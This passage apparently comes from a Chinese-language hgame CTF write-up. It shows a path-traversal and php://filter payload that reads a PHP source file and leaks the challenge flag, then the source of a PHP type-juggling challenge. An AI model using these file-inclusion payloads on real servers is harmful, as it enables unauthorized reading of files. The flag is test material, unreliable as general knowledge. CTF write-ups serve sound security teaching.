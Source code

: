 `http://118.24.25.25:9999/easyphp/img/index.php?img=....//flag` 

显示 *"maybe_you_should_think_think"* 那应该文件和绕过是没错了，内容被include进去了，使用伪协议读

`http://118.24.25.25:9999/easyphp/img/index.php?img=php://filter/read=convert.base64-encode/resource=....//flag`

读到 

> PD9waHAKICAgIC8vJGZsYWcgPSAnaGdhbWV7WW91XzRyZV9Tb19nMG9kfSc7CiAgICBlY2hvICJtYXliZV95b3Vfc2hvdWxkX3RoaW5rX3RoaW5rIjsK

base64decode后

```php
<?php
//$flag = 'hgame{You_4re_So_g0od}';
echo "maybe_you_should_think_think";
    
```

> flag：hgame{You_4re_So_g0od}



## php trick

>描述：some php tricks
>
>URL：[http://118.24.3.214:3001](http://118.24.3.214:3001/)

```php
<?php
//admin.php
highlight_file(__FILE__);
$str1 = (string)@$_GET['str1'];
$str2 = (string)@$_GET['str2'];
$str3 = @$_GET['str3'];
$str4 = @$_GET['str4'];
$str5 = @$_GET['H_game'];
$url = @$_GET['url'];
if( $str1 == $str2 ){
    die('step 1 fail');
}
if( md5($str1) != md5($str2) ){
    die('step 2 fail');
}
if( $str3 == $str4 ){
    die('step 3 fail');
}
if ( md5($str3) !== md5($str4)){
    die('step 4 fail');
}
if (strpos($_SERVER['QUERY_STRING'], "H_game") !==false) {
    die('step 5 fail');
}
if(is_numeric($str5)){
    die('step 6 fail');
}
if ($str5<9999999999){
    die('step 7 fail');
}
if ((string)$str5>0){
    die('step 8 fial');
}
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
```